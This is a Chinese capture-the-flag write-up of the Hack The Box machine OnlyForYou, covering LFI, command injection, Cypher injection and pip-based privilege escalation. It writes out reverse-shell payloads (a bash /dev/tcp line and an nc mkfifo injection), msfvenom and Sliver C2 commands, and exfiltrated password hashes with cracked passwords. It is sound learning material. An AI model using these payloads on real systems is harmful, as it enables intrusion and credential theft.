


*Difficulty: Medium*

---

## 扫描

自用脚本：[工作流](./HTB-Busqueda.md#workflow-scan)

```
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
```


## 漏洞分析

## 80端口：only4you.htb

- robots.txt：无
- 网页功能：能发送反馈？
- 子域枚举：beta.only4you.htb

### 子域：beta.only4you.htb

能下载到一个flask项目源码。可能是这个beta，也可能是主站？总之先看看源码。

```bash
└─$ cat app.py                    
from flask import Flask, request, send_file, render_template, flash, redirect, send_from_directory
import os, uuid, posixpath
from werkzeug.utils import secure_filename
from pathlib import Path
from tool import convertjp, convertpj, resizeimg
……
@app.route('/download', methods=['POST'])
def download():
    image = request.form['image']
    filename = posixpath.normpath(image) 
    if '..' in filename or filename.startswith('../'):
        flash('Hacking detected!', 'danger')
        return redirect('/list')
    if not os.path.isabs(filename):
        filename = os.path.join(app.config['LIST_FOLDER'], filename)
    try:
        if not os.path.isfile(filename):
            flash('Image doesn\'t exist!', 'danger')
            return redirect('/list')
    except (TypeError, ValueError):
        raise BadRequest()
    return send_file(filename, as_attachment=True)
……
if __name__ == '__main__':
    app.run(host='127.0.0.1', port=80, debug=False)
```

#### 发现子域LFI

注意到源码里'/download'路由的部分，有防止目录遍历的代码，不过试了下不知道为什么可以直接写绝对路径访问目标文件。  
*后来根据[0xdf的WP](https://0xdf.gitlab.io/2023/08/26/htb-onlyforyou.html#file-read)，原来是python的`os.path.join`代码有点微妙的智能——如果直接写绝对路径，则会忽略前面join的部分，直接从绝对路径继续join。（[python文档](https://docs.python.org/3.10/library/os.path.html#os.path.join)）*

由于目标是nginx服务器，看一眼nginx配置，然后看看子域配置。  
请求：
```http
POST /download HTTP/1.1
Host: beta.only4you.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 38
Origin: http://beta.only4you.htb
Connection: close
Referer: http://beta.only4you.htb/list
Upgrade-Insecure-Requests: 1

image=/etc/nginx/sites-enabled/default
```

响应：
```
server {
    listen 80;
    return 301 http://only4you.htb$request_uri;
}

server {
	listen 80;
	server_name only4you.htb;

	location / {
                include proxy_params;
                proxy_pass http://unix:/var/www/only4you.htb/only4you.sock;
	}
}

server {
	listen 80;
	server_name beta.only4you.htb;

        location / {
                include proxy_params;
                proxy_pass http://unix:/var/www/beta.only4you.htb/beta.sock;
        }
}
```

注意到 `/var/www/only4you.htb/`，应该是这个项目的文件夹。而参考我们在 `beta.only4you.htb` 下载的源码，可以大致猜测主站的项目文件夹里也有个 `app.py`。

payload：`image=/var/www/only4you.htb/app.py`  
响应：
```py
from flask import Flask, render_template, request, flash, redirect
from form import sendmessage
import uuid

app = Flask(__name__)
app.secret_key = uuid.uuid4().hex

@app.route('/', methods=['GET', 'POST'])
def index():
    if request.method == 'POST':
        email = request.form['email']
        subject = request.form['subject']
        message = request.form['message']
        ip = request.remote_addr
……
```

第二行似乎导入了一个自定义包：`from form import sendmessage`  
请求一下看看，确实有。这好像是主站那个发送反馈的表单：

payload：`image=/var/www/only4you.htb/form.py`  
响应：
```py
import smtplib, re
from email.message import EmailMessage
from subprocess import PIPE, run
import ipaddress

def issecure(email, ip):
	if not re.match("([A-Za-z0-9]+[.-_])*[A-Za-z0-9]+@[A-Za-z0-9-]+(\.[A-Z|a-z]{2,})", email):
		return 0
	else:
		domain = email.split("@", 1)[1]
		result = run([f"dig txt {domain}"], shell=True, stdout=PIPE)
		output = result.stdout.decode('utf-8')
		if "v=spf1" not in output:
			return 1
		else:
			domains = []
			ips = []
			if "include:" in output:
				dms = ''.join(re.findall(r"include:.*\.[A-Z|a-z]{2,}", output)).split("include:")
				dms.pop(0)
				for domain in dms:
					domains.append(domain)
				while True:
					for domain in domains:
						result = run([f"dig txt {domain}"], shell=True, stdout=PIPE)
						output = result.stdout.decode('utf-8')
						if "include:" in output:
							dms = ''.join(re.findall(r"include:.*\.[A-Z|a-z]{2,}", output)).split("include:")
							domains.clear()
							for domain in dms:
								domains.append(domain)
						elif "ip4:" in output:
							ipaddresses = ''.join(re.findall(r"ip4:+[0-9]+\.[0-9]+\.[0-9]+\.[0-9]+[/]?[0-9]{2}", output)).split("ip4:")
							ipaddresses.pop(0)
							for i in ipaddresses:
								ips.append(i)
						else:
							pass
					break
			elif "ip4" in output:
				ipaddresses = ''.join(re.findall(r"ip4:+[0-9]+\.[0-9]+\.[0-9]+\.[0-9]+[/]?[0-9]{2}", output)).split("ip4:")
				ipaddresses.pop(0)
				for i in ipaddresses:
					ips.append(i)
			else:
				return 1
		for i in ips:
			if ip == i:
				return 2
			elif ipaddress.ip_address(ip) in ipaddress.ip_network(i):
				return 2
			else:
				return 1

def sendmessage(email, subject, message, ip):
	status = issecure(email, ip)
	if status == 2:
		msg = EmailMessage()
		msg['From'] = f'{email}'
		msg['To'] = 'info@only4you.htb'
		msg['Subject'] = f'{subject}'
		msg['Message'] = f'{message}'

		smtp = smtplib.SMTP(host='localhost', port=25)
		smtp.send_message(msg)
		smtp.quit()
		return status
	elif status == 1:
		return status
	else:
		return status
```

**注意这里面导入了 `subprocess.run()`。关于run函数，默认是python执行命令，但是也有个参数 `shell=True`，可以让它用shell执行，则可以使用shell的功能：通配符、重定向符等。**  
> subprocess.run(["ls", "-l"])  
> subprocess.run("ls -l", shell=True)  
> shell=True，默认是用“/bin/sh”

而这里面正好有个 `result = run([f"dig txt {domain}"], shell=True, stdout=PIPE)`，其中的 `domain` 参数是在判断完正则之后直接从 `email` 参数切片得来，未进行特别清理。（本意可能是正则表达式以“$”结尾，或者 `domain` 参数取正则匹配到的部分）  
> domain = email.split("@", 1)[1]

所以可以尝试注入。只是注意要匹配到email参数的正则表达式 `re.match("([A-Za-z0-9]+[.-_])*[A-Za-z0-9]+@[A-Za-z0-9-]+(\.[A-Z|a-z]{2,})", email)`，以让函数不直接 `return 0` 结束。不过这是很常规的email格式就是了。

### 转战主站表单注入

burp里首先用ping验证一下，收到ping。（不过不知道为什么开头有几行由我kali发起的请求？）

payload：`name=admin&email=admin@test.lab;ping 10.xx.xx.xx&subject=asdf&message=asdf`  
响应：
```bash
$ sudo tcpdump -i tun0
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
03:53:42.830312 IP 10.xx.xx.xx.57322 > only4you.htb.http: Flags [S], seq 3023393082, win 64240, options [mss 1460,sackOK,TS val 1866577499 ecr 0,nop,wscale 7], length 0
03:53:42.910763 IP only4you.htb.http > 10.xx.xx.xx.57322: Flags [S.], seq 3296966782, ack 3023393083, win 65160, options [mss 1337,sackOK,TS val 1624306828 ecr 1866577499,nop,wscale 7], length 0
03:53:42.910812 IP 10.xx.xx.xx.57322 > only4you.htb.http: Flags [.], ack 1, win 502, options [nop,nop,TS val 1866577580 ecr 1624306828], length 0
03:53:42.910972 IP 10.xx.xx.xx.57322 > only4you.htb.http: Flags [P.], seq 1:672, ack 1, win 502, options [nop,nop,TS val 1866577580 ecr 1624306828], length 671: HTTP: POST / HTTP/1.1
03:53:42.991151 IP only4you.htb.http > 10.xx.xx.xx.57322: Flags [.], ack 672, win 504, options [nop,nop,TS val 1624306908 ecr 1866577580], length 0
03:53:50.371090 IP only4you.htb > 10.xx.xx.xx: ICMP echo request, id 4, seq 1, length 64
03:53:50.371122 IP 10.xx.xx.xx > only4you.htb: ICMP echo reply, id 4, seq 1, length 64
03:53:51.372118 IP only4you.htb > 10.xx.xx.xx: ICMP echo request, id 4, seq 2, length 64
03:53:51.372133 IP 10.xx.xx.xx > only4you.htb: ICMP echo reply, id 4, seq 2, length 64
03:53:52.374083 IP only4you.htb > 10.xx.xx.xx: ICMP echo request, id 4, seq 3, length 64
03:53:52.374100 IP 10.xx.xx.xx > only4you.htb: ICMP echo reply, id 4, seq 3, length 64
03:53:53.375395 IP only4you.htb > 10.xx.xx.xx: ICMP echo request, id 4, seq 4, length 64
03:53:53.375419 IP 10.xx.xx.xx > only4you.htb: ICMP echo reply, id 4, seq 4, length 64
^C
13 packets captured
13 packets received by filter
0 packets dropped by kernel
```


## Initial Access

试了好几个payload都没反应，不知道为什么……如这个：`/bin/bash -i >& /dev/tcp/10.xx.xx.xx/4444 0>&1`

通过下面这个payload成功get shell：  
payload：`name=admin&email=admin@test.lab;rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fbash%20-i%202%3E%261%7Cnc%2010.xx.xx.xx%204444%20%3E%2Ftmp%2Ff&subject=asdf&message=asdf`  
*后面试了下python3的也可以*

```bash
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.xx.xx.xx] from (UNKNOWN) [10.10.11.210] 33262
bash: cannot set terminal process group (1014): Inappropriate ioctl for device
bash: no job control in this shell
www-data@only4you:~/only4you.htb$  id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

看了下用户flag不在这个用户。home目录有两个用户：dev、john。  
姑且看了下SUID等，没发现能提权。继续探索期望进行横向移动。


## 探索

枚举到本地开放端口时，发现开着挺多服务：
```bash
www-data@only4you:~/only4you.htb$ netstat -anot
netstat -anot
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       Timer
tcp        0      0 127.0.0.1:8001          0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 127.0.0.1:3000          0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0     14 10.10.11.210:33262      10.xx.xx.xx:4444        ESTABLISHED on (0.28/0/0)
tcp        0      1 10.10.11.210:49654      8.8.8.8:53              SYN_SENT    on (0.30/2/0)
tcp        0      0 127.0.0.1:3306          127.0.0.1:49928         TIME_WAIT   timewait (13.30/0/0)
tcp6       0      0 127.0.0.1:7687          :::*                    LISTEN      off (0.00/0/0)
tcp6       0      0 127.0.0.1:7474          :::*                    LISTEN      off (0.00/0/0)
tcp6       0      0 :::22                   :::*                    LISTEN      off (0.00/0/0)
```

都curl看看。先 `curl -I` 看看响应报头

- **127.0.0.1:8001，302，不过Location字段会重定向到 `/login`，那边会响应200。**
- 127.0.0.1:33060，`curl: (1) Received HTTP/0.9 when not allowed`，报错？
- 127.0.0.1:3306，同上。不过一般都是mysql。
- **127.0.0.1:3000，200。**
- 127.0.0.1:7687，`curl: (52) Empty reply from server`
- **127.0.0.1:7474，200。**

有几个响应200的本来想curl一下看看网页源码，不过之后要进行更深的分析的话光靠curl还是好麻烦。看看能不能弄个端口转发什么的……

### 端口转发

- 之前一直听说[frp](https://github.com/fatedier/frp)、Ngrok等
- 最近还知道有个[Sliver C2](https://github.com/BishopFox/sliver)好像是对标CS的？
- 后来看WP有人用[chisel](https://github.com/jpillora/chisel)
- 以及群里有师傅说原生metasploit有点鸡肋，推荐[Viper - 炫彩蛇](https://www.yuque.com/vipersec/help/olg1ua)
- 自己比较熟悉的是metasploit就先试试这个

#### metasploit

首先生成payload：
```bash
└─$ msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.xx.xx.xx LPORT=6666 -f elf > p.elf
```

发送到目标，执行后配置端口转发。  
*踩坑：`-L` 选项是指定tun0网卡。最开始指定了环回IP自己都没意识到问题所在……当然不用 `-L` 选项直接监听所有网卡倒也行。*
```bash
meterpreter > portfwd add -L 10.xx.xx.xx -l 3000 -p 3000 -r 127.0.0.1
[*] Forward TCP relay created: (local) 10.xx.xx.xx:3000 -> (remote) 127.0.0.1:3000

meterpreter > portfwd 

Active Port Forwards
====================

   Index  Local           Remote            Direction
   -----  -----           ------            ---------
   1      127.0.0.1:3000  10.xx.xx.xx:3000  Forward
```

试了下倒是成功了。  
不过本来加第一个端口转发还能访问来着，加了第二个之后，访问就变得巨慢，可以说是没用了。看了眼 `netstat` 似乎都在队列里，不知道有什么问题。  
重置靶机试了几次都这样，要是还得一个一个来弄就很烦，就想顺便弄点新东西，试试整[Sliver C2](https://github.com/BishopFox/sliver/wiki/Getting-Started)。

#### Sliver C2

安装很简单： 
> `curl https://sliver.sh/install|sudo bash` and then run `sliver`

- memo：这种方式安装即为[Multiplayer Mode](https://github.com/BishopFox/sliver/wiki/Multiplayer-Mode)

		The easiest way to setup a server for multiplayer is to use the Linux install script which will configure the server as a systemd service.

Sliver的 `netstat` 命令要显示全还挺麻烦的……如果不是之前知道开放了3000、8001等本地端口的话，估计就不会注意到了。对比带选项和不带选项：
```bash
sliver (SMILING_WET-BAR) > netstat -4 -6 -l -n -T -u

 Protocol   Local Address     Foreign Address   State         PID/Program Name 
========== ================= ================= ============= ==================
 udp        127.0.0.1:48897   127.0.0.53:53     ESTABLISHED   0/               
 udp        127.0.0.53:53     0.0.0.0:0                       0/               
 udp        0.0.0.0:68        0.0.0.0:0                       0/               
 tcp        127.0.0.1:3306    0.0.0.0:0         LISTEN        0/               
 tcp        0.0.0.0:80        0.0.0.0:0         LISTEN        1049/nginx       
 tcp        127.0.0.53:53     0.0.0.0:0         LISTEN        0/               
 tcp        0.0.0.0:22        0.0.0.0:0         LISTEN        0/               
 tcp        127.0.0.1:3000    0.0.0.0:0         LISTEN        0/               
 tcp        127.0.0.1:8001    0.0.0.0:0         LISTEN        0/               
 tcp        127.0.0.1:33060   0.0.0.0:0         LISTEN        0/               
 tcp6       127.0.0.1:7474    :::0              LISTEN        0/               
 tcp6       :::22             :::0              LISTEN        0/               
 tcp6       127.0.0.1:7687    :::0              LISTEN        0/


sliver (SMILING_WET-BAR) > netstat 

 Protocol   Local Address         Foreign Address    State         PID/Program Name     
========== ===================== ================== ============= ======================
 tcp        only4you.htb.:48422   10.xx.xx.xx:4444   ESTABLISHED   5111/python3         
 tcp        only4you.htb.:44230   10.xx.xx.xx:4444   CLOSE_WAIT    1438/python3         
 tcp        only4you.htb.:32794   10.xx.xx.xx:4444   CLOSE_WAIT    1250/python3         
 tcp        localhost:3000        localhost:41604    ESTABLISHED   0/                   
 tcp        localhost:3000        localhost:41616    ESTABLISHED   0/                   
 tcp        only4you.htb.:59626   10.xx.xx.xx:4444   CLOSE_WAIT    2215/python3         
 tcp        only4you.htb.:39926   dns.google.:53     SYN_SENT      0/                   
 tcp        localhost:3000        localhost:41624    ESTABLISHED   0/
```

配置端口转发：
```bash
sliver (SMILING_WET-BAR) > portfwd add -b 10.xx.xx.xx:7474 -r 127.0.0.1:7474

[*] Port forwarding 10.xx.xx.xx:7474 -> 127.0.0.1:7474


sliver (SMILING_WET-BAR) > portfwd 

 ID   Session ID                             Bind Address       Remote Address 
==== ====================================== ================== ================
  1   bd9e189d-515d-43a8-913d-8bf558991ee8   10.xx.xx.xx:3000   127.0.0.1:3000 
  2   bd9e189d-515d-43a8-913d-8bf558991ee8   10.xx.xx.xx:8001   127.0.0.1:8001 
  3   bd9e189d-515d-43a8-913d-8bf558991ee8   10.xx.xx.xx:7474   127.0.0.1:7474
```

### socks5 proxy

*后来看别人的WP了解到可以 `socks start` 开启socks5代理……然后在浏览器配置代理就好了*

试了下kali浏览器访问几个端口都没问题。

### 初步浏览各个本地端口

#### 3000

是个叫Gogs的什么git服务。

发现两个用户  
{ width='720' }

另有登陆界面，不知道能否SQLi。  
不过感觉是拿到了这俩用户的密码之后，登陆进来看脚本漏洞什么的？

#### 8001

又一个登陆界面  
{ width='450' }

看了眼wappalyzer，deployment项目里有Gogs。那应该就是和端口3000配套的？

#### 7474

没怎么见过，似乎叫Neo4j。查了下是个NoSQL图形数据库  
{ width='720' }

也搞清楚了另一个端口7687  
> [Neo4j is a graph database management system developed by Neo4j. Default ports are 6362 (Backup), 7474 (HTTP), 7473 (HTTPS), 7687 (Bolt).](https://exploit-notes.hdks.org/exploit/database/neo4j-pentesting/)

hacktricks也有相关文章，[hacktricks - Cypher Injection (neo4j)](https://book.hacktricks.xyz/pentesting-web/sql-injection/cypher-injection-neo4j)，不过没看懂……

没懂怎么注入，就想着油管看看实操，然后看[youtube - Cypher Query Injection](https://www.youtube.com/watch?v=SIqKo7xiPVA)这个视频才明白原来这个“Cypher”不是密码，而是“[Open Cypher](http://opencypher.org/)”……  
简单看了下就是类似SQLi。但是参数在哪啊……

### 弱密码登陆本地端口3000

弱密码，admin:admin。进去后看Tasks标注“迁移到新数据库Neo4j”。那有可能这边才是注入的地方。

### Cypher Query Injection

参照上面几篇文章，用python在本地开个简单的http服务进行测试。  
然后在EMPLOYEES菜单的搜索框发现注入点，可以进行暴库。  
*一开始复制payload在CyberChef普通地选上URL编码不大行，后面注意到payload里面有加号，然后在CyberChefURL编码时勾上处理所有特殊字符才注入OK。*  
*而且admin登陆会话还有时限，过一段时间总要再次登陆获取活跃会话才能顺利POST注入payload*  
*以及事后回顾才发现这次真是好运，参考文章的payload里这个 `MATCH (f:user)` 是正好这次枚举出来有的label。当时是想都没想直接复制着用了，要是不行的话指不定会卡多久……*  
*还有不大明白为什么一次请求会返回好多条响应……*

```log
└─$ python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.210 - - [31/May/2023 08:10:16] code 400, message Bad request syntax ('GET /?version=5.6.0&name=Neo4j Kernel&edition=community HTTP/1.1')
10.10.11.210 - - [31/May/2023 08:10:16] "GET /?version=5.6.0&name=Neo4j Kernel&edition=community HTTP/1.1" 400 -
10.10.11.210 - - [31/May/2023 08:10:38] code 400, message Bad request syntax ('GET /?version=5.6.0&name=Neo4j Kernel&edition=community HTTP/1.1')
10.10.11.210 - - [31/May/2023 08:29:19] "GET /?version=5.6.0&name=Neo4j Kernel&edition=community HTTP/1.1" 400 -

10.10.11.210 - - [31/May/2023 08:29:28] "GET /?label=user HTTP/1.1" 200 -
10.10.11.210 - - [31/May/2023 08:29:28] "GET /?label=employee HTTP/1.1" 200 -
……

10.10.11.210 - - [31/May/2023 08:30:28] "GET /?password=8c6976e5b5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918 HTTP/1.1" 200 -
10.10.11.210 - - [31/May/2023 08:30:28] "GET /?username=admin HTTP/1.1" 200 -
10.10.11.210 - - [31/May/2023 08:30:28] "GET /?password=a85e870c05825afeac63215d5e845aa7f3088cd15359ea88fa4061c6411c55f6 HTTP/1.1" 200 -
10.10.11.210 - - [31/May/2023 08:30:29] "GET /?username=john HTTP/1.1" 200 -
……
```

### 获得凭据

密码一开始想着 `john` 暴破不过没成功，`hash-identifier`甚至把密文识别为SHA-256。  
后来直接扔进这里试了下就出来了：<https://www.somd5.com/>

将log稍作整理，并解密后，我们得到了如下信息：

| username | password | 解密 |
| - | - | - |
| admin | 8c6976e5b5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918 | admin |
| john  | a85e870c05825afeac63215d5e845aa7f3088cd15359ea88fa4061c6411c55f6 | ThisIs4You |

记得还有个本地端口3000，admin弱密码之前试过了，用john进去看看有什么信息。不过很遗憾只有一个Test仓库，还是私人的，没任何有用的信息了。

不过突然想起来SSH，毕竟家目录有他。本地端口这边打太久了都要忘了这回事……

## SSH登陆

```bash
Last login: Tue Apr 18 07:46:32 2023 from 10.10.14.40
john@only4you:~$ id
uid=1000(john) gid=1000(john) groups=1000(john)
```


## flag: user

```bash
john@only4you:~$ cat user.txt 
94ad……e03a
```


## Privilege Escalation

有密码的用户，上来先看看 `sudo -l`：
```bash
john@only4you:~$ sudo -l 
Matching Defaults entries for john on only4you:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User john may run the following commands on only4you:
    (root) NOPASSWD: /usr/bin/pip3 download http\://127.0.0.1\:3000/*.tar.gz
```

有通配符，较可疑。  
不过突破口其实是在前半部分的 `pip3 download`，我们可以谷歌找到这篇文章：[Malicious Python Packages and Code Execution via pip download](https://embracethered.com/blog/posts/2022/python-package-manager-install-and-download-vulnerability/)

根据文章指示构建一个tar.gz文件。  
然后在Gogs新建一个仓库，正好之前发现john用户可以用，将tar.gz文件上传。


运行：  
*靶机会自动清理仓库的样子*  
*下载仓库的tar.gz文件注意要选择“raw”*

```bash
john@only4you:~$ ls -l /usr/bin/bash
-rwxr-xr-x 1 root root 1183448 Apr 18  2022 /usr/bin/bash
john@only4you:~$ sudo /usr/bin/pip3 download http\://127.0.0.1\:3000/john/exp/raw/master/this_is_fine_wuzzi-0.0.1.tar.gz
Collecting http://127.0.0.1:3000/john/exp/raw/master/this_is_fine_wuzzi-0.0.1.tar.gz
  Downloading http://127.0.0.1:3000/john/exp/raw/master/this_is_fine_wuzzi-0.0.1.tar.gz
     - 2.7 kB 8.2 MB/s
  Saved ./this_is_fine_wuzzi-0.0.1.tar.gz
Successfully downloaded this-is-fine-wuzzi
john@only4you:~$ ls -l /usr/bin/bash
-rwsr-xr-x 1 root root 1183448 Apr 18  2022 /usr/bin/bash
```

## flag: root

```bash
john@only4you:~$ bash -p
bash-5.0# id
uid=1000(john) gid=1000(john) euid=0(root) groups=1000(john)       
bash-5.0# cat /root/root.txt 
156a……3d3a
```

---

## 总结·后记

2023/05/31


难……已经啥都不想说了。想吐槽的以及不太懂的地方都边打边写了（斜体）……